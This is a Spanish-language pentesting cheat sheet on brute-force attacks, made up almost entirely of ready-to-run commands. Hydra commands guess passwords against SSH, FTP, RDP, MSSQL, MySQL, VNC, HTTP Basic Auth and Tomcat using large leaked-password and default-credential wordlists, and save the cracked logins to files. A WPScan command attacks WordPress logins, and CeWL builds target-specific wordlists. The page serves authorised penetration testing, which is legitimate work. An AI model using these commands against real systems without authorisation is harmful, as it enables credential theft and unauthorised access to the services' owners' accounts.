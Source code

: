 ```yaml
---
layout: article
title: Pentesting - Ataques de fuerza bruta
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h1>Fuerza bruta a servicios</h1>

<h2><b>Hydra</b></h2>

<div class="grid" id="ssh-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u <IP> ssh -o ssh-creds.txt
hydra -l root -P passwords.txt -t 3 -s port <IP> ssh
~~~

<div class="grid" id="ftp-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

~~~bash
hydra -l anonymous -P passwords.txt -v <IP> ftp -o ftp-creds.txt
hydra -L users.txt -P passwords.txt -t 3 -s 21 <IP> ftp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP</div>
</div>

~~~bash
hydra -f -l Administrator -P /usr/share/wordlists/rockyou.txt -o rdp-creds.txt rdp://192.168.1.100
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MSSQL</div>
</div>

~~~bash
hydra -L /usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt 192.168.1.100 mssql -o mssql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MySQL</div>
</div>

~~~bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.1.100 mysql -o mysql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">VNC</div>
</div>

~~~bash
hydra -s 5900 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -t 1 192.168.1.100 vnc -o vnc-creds.txt
~~~
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Basic Auth</div>
</div>

~~~bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-head /webdav/ -o http-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Tomcat</div>
</div>

~~~bash
hydra -C /usr/share/seclist/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 192.168.1.100 http-get /webauth 
~~~

<h2><b>WPScan</b></h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP</div>
</div>

~~~bash
wpscan --url http://192.168.1.100/wp --passwords=passwords.txt --usernames admin -t 20​
~~~

<h1>Misc</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CeWL</div>
</div>
[https://github.com/digininja/CeWL.git](https://github.com/digininja/CeWL.git)

Generador de wordlists que recopila palabras clave de las URL del objetivo (spider del target). Esta lista puede ser utilizada como diccionario para logins en aplicaciones web.

~~~bash
./cewl example.com -d 1 -w example-keywords.txt
~~~